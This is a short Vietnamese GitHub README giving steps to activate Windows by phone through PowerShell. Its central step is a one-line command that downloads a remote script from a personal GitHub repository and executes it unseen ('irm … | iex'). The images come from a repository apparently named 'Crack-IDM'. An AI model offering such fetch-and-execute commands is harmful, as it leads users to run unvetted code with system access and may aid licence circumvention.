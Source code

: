 # Active Windows ByPhone #
- ![image](https://github.com/user-attachments/assets/892ab962-1334-4126-9b74-42be48da0f04)
- Kích hoạt Windows bằng By Phone.
- Khi kích hoạt Windows bằng key by phone, các bạn đôi khi không getcid được, tôi xin làm bài viết này giúp bạn giải quyết điều đó bằng cách dùng **Windows PowerShell:**
- Đầu tiên bấm tổ hợp phiếm: **Windows + R**, sau đó điền **PowerShell** rồi bấm enter.
- ![image](https://github.com/BsNgChiThanh/Crack-IDM/assets/82578024/73f131a2-efd7-4c50-9a36-106b02d83fca)
- Dán vào câu lệnh: **CD C:\Windows\System32** rồi enter
- ![image](https://github.com/BsNgChiThanh/Crack-IDM/assets/82578024/cc4df65e-6cc1-47a1-a967-fe19d9983a26)
- Dán dòng lệnh dưới đây:
 
    ```php
    irm https://raw.githubusercontent.com/BsNgChiThanh/ActiveWindowsByPhone/IMP/ActiveWindowsByPhone.ps1 | iex
    ```
- ![image](https://github.com/user-attachments/assets/ea27fcc3-2b4d-47a0-a9a4-d0e79048608e)
- Bấm enter, sau đó làm theo chỉ dẫn là xong!
